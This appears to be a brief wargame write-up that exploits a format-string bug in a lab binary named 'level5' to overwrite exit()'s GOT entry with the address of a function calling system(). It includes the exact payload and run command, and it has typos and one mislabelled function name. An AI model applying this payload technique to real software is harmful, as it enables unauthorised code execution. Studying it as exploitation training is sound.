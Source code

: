 This elf still use unprotected printf, but this time their is no comparaison.
But we spot a fct <o> with our beloved call to system(), but it is never called...
Also mind that <n> calls exit(), so never returns !
We can see taht our string start at stack position 4, and check the adresses of functions exit and o with
```
objdump -R level5
objdump -t level5 | grep o
```
We want to replace the address of exit() by that of hello() in the GOT
08049838 -> exit()
080484a4 -> o()
so 
0x84a4 (33956) -> 0x08049838
0x0804 (2052)-> 0x0804983a

`\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn`

```
python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn" > /tmp/exploit'
cat /tmp/exploit - | ./level5
```
